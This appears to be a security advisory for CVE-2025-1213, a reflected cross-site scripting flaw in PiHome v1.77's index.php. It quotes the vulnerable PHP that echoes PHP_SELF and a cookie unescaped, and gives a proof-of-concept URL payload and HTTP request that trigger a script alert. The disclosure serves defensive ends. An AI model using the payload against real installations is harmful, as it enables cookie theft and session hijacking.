

# Cross Site Scripting in Pihome v1.77 in index.php

### Title: Cross Site Scripting in Pihome v1.77 in index.php
### Affected Component: /index.php
### CWE: CWE-79 (Cross Site Scripting)
### CVE: [CVE-2025-1213](https://www.cve.org/CVERecord?id=CVE-2025-1213)
### VulDB: [VDB-295172](https://vuldb.com/?id.295172)


### Vendor homepage:
[https://github.com/pihome-shc/pihome](https://github.com/pihome-shc/pihome/)


### Setup for getting the PoC to Work
Setup the project and then visit the following url `<url>/index.php/p6eum"><script>alert(1)</script>`


### Impact:
The web application is vulnerable to XSS attacks within the index.php. Attackers can exploit this vulnerability by injecting malicious payload in the url and steal cookies if the cookie flags are not set properly. 


The code below shows (index.php from line 344) that the user input is put into the html source without sanitation. This is a high risk vulnerability.

```php
	echo '<div class="panel-body">
						<div class="row">
                        				<form method="post" action="'.$_SERVER['PHP_SELF'].'" role="form">';
								include("notice.php");
								echo '<br>
                            					<fieldset>
                                					<div class="form-group">';
										if ($no_ap == 0 || $wifi_connected == 1 || $eth_connected == 1 || $ap_mode == 1) {
											echo '<input class="form-control" placeholder="User Name" name="username" type="input" value="';
											if(isset($_COOKIE["user_login"])) { echo $_COOKIE["user_login"]; }
											echo '" autofocus>';
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the XSS vulnerability, attackers craft a payload containing malicious input and inject it into the url. For example, 
submitting the payload `<url>/index.php/p6eum"><script>alert(1)</script>` triggers the alert box. This demonstrates the successful execution of the injection within the application.

#### HTTP Request:
```
GET /index.php/%22%3E%3Cscript%3Ealert(1)%3C/script%3E HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1b1fc7ea89369750d8276209e0a595e5
Connection: keep-alive


```

### Proof with Screenshot:



## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)